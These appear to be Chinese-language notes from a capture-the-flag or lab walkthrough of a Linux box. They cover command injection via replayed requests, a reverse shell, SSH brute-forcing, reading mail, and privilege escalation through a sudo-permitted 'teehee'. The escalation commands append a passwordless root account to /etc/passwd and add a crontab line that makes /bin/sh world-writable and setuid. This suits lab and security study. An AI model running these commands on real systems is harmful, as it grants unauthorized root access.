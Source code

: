 破解出密码

## 进去之后是三个选项 点击就会自动输入一个命令

可以考虑bp抓包 用重放攻击来修改命令

可以cat /etc/passwd查看账户名

## 反弹shell之后 到账户的所在目录看一下有无文件

找到一个密码本 需要我们破解

## 假如找到有sudo权限的文件的话 可以漏洞利用

用python服务器传上去
```
python -m http.server 4444
```

跑脚本就能获得root权限

## 2. 就是暴力破解出jim的ssh账户 登录进去

告诉我们一个提示有邮件

邮件存储在/var/spool/mail 查看一下邮件

得知了另一个用户 登录进去

## 查看他可以使用什么sudo权限
```
sudo -l
```
发现一个teehee

## teehee提权
可以看到使用teehee提权,teehee就是tee的变体从标准输入读取并写入标准输出和文件

我们可以借助teehee往passwd写入一个root账号即可得到root权限

/etc/passwd格式
username:password:User ID:Group ID:comment:home directory:shell

echo "admin::0:0:::/bin/bash" | sudo teehee -a /etc/passwd

### teehee定时提权
```
sudo teehee /etc/crontab
* * * * * root chmod 4777 /bin/sh
```
　写入成功：拿到root权限

```php
/bin/sh
```
